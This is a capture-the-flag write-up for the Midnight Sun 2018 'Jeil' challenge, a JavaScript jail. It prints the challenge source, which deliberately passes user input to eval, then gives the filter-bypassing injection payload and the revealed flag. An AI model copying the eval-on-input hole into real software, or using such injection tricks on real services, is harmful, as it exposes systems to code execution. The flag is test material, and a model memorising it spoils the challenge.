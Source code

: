 ```yaml
---
title: "Midnight Sun 2018 - Jeil (Pwn)"
header:
  overlay_image: /assets/images/midnightsun2018/jeil/header.jpg
  overlay_filter: 0.5
  caption: "Photo credit: Nicolai Berntsen on Unsplash"

tags:
  - midnightsun2018
  - writeup
  - pwn
---
```


Javascript jail challenge that filters most Javascript special symbols and
alphabets.

## Challenge Description

```
You are awesome at breaking into stuff, how about breaking out?

Service: nc web2.midnightsunctf.se 55542 | nc 34.244.177.217 55542
```

#### Points

Points: 200

Solves: 3

Author: avlidienbrunn

## Solution

We are given the following source code:

```js
var readline = require('readline');
var rl = readline.createInterface(process.stdin, process.stdout);

var Jail = (function() {
    var rv = {};

    function secretFuncUnguessable{{ENV_SECRET_0}}(a,b,c){
        if(a === '{{ENV_SECRET_1}}' && b === '{{ENV_SECRET_2}}' && c === '{{ENV_SECRET_3}}'){
            return true;
        }
    }

    function call(code) {
        var line = "";

        if(new RegExp(/[\[\]\.\\\+\-\/;a-zA-Z{}`'"\s]/).test(code)){
            console.log("Unrecognized code.");
            throw 123;
            return;
        }

        if(!(code.length == 32)){
            console.log("Incorrect code length.");
            throw 123;
            return;
        }

        arguments = undefined;

        ret = null;
        ret = eval("this.secretFuncUnguessable"+code);

        if(typeof ret == "function"){
            if(ret.call(this,'{{ENV_SECRET_1}}', '{{ENV_SECRET_2}}', '{{ENV_SECRET_3}}') === true){
                console.log("{{ENV_SECRET_FLAG}}");
            }else{
                console.log("Incorrect code.");
            }
        }else{
            console.log("Incorrect code.");
        }
        throw 123;
    };
    rv.call = call;
    rv.toString = function(){return rv.call.toString()};

    return rv;
})();

template = `|￣￣￣￣￣￣￣￣|
|    Internal    |
|＿＿＿＿＿＿＿＿|
       ||
(\\__/) ||
(•ㅅ•) ||
/ 　 づ

Code: `;

function ask(){
    rl.question(template,function(answer){
        Jail.call(answer);
    });
}

ask();
```

The program filters a lot of characters and we are left with the following to
work with:

```
['0',
'1',
'2',
'3',
'4',
'5',
'6',
'7',
'8',
'9',
'!',
'#',
'$',
'%',
'&',
'(',
')',
'*',
',',
':',
'<',
'=',
'>',
'?',
'@',
'^',
'_',
'|',
'~',
'\t',
'\n',
'\r',
'\x0b',
'\x0c']
```

The objective is to get the flag by passing these constraints:

```js
ret = eval("this.secretFuncUnguessable"+code);

        if(typeof ret == "function"){
            if(ret.call(this,'{{ENV_SECRET_1}}', '{{ENV_SECRET_2}}', '{{ENV_SECRET_3}}') === true){
                console.log("{{ENV_SECRET_FLAG}}");
            }else{
                console.log("Incorrect code.");
            }
        }else{
            console.log("Incorrect code.");
        }
```

The user input is concatenated with the base part of the unguessable function
name and then evaluated. Thus, we have to make the eval return a valid function
that also returns true when those parameters are passed to it.

We can create a test environment for ourselves to play with this:

```js
$ nodejs
> this.secretFunction12345 = function(a,b,c) {
... if (a == "1") return true;
... }
[Function]
> eval("this.secretFunction" + "")
undefined
>
```

To begin with, we need to be able to chain another command. We can do this
easily with `,`.

```js
> eval("this.secretFunction" + ",1")
1
```

Next, we need to create a function. Turns out, we can do this with the fat arrow
notation `=>`. I opted to use a unicode symbol as the variable name since it
was not filtered.

```js
> eval("this.secretFunction" + ",Ŝ=>1")
[Function]
```

Finally, we need that function to always return true. We can do this by using
`!0` to create that value.

```js
> !0
true
> eval("this.secretFunction" + ",Ŝ=>!0")
[Function]
> eval("this.secretFunction" + ",Ŝ=>!0")()
true
```

Now, all we need to do is pad it to the required length and then send it to the
server to get our flag.

```shell
nc 34.244.177.217 55542
|￣￣￣￣￣￣￣￣|
|    Internal    |
|＿＿＿＿＿＿＿＿|
       ||
(\__/) ||
(•ㅅ•) ||
/ 　 づ

Code: ,1111111111111111111111111,Ŝ=>!0
midnight{f33lin_fr1sky_f0r_funky_funct10nz}
```

Flag: **midnight{f33lin\_fr1sky\_f0r\_funky\_funct10nz}**

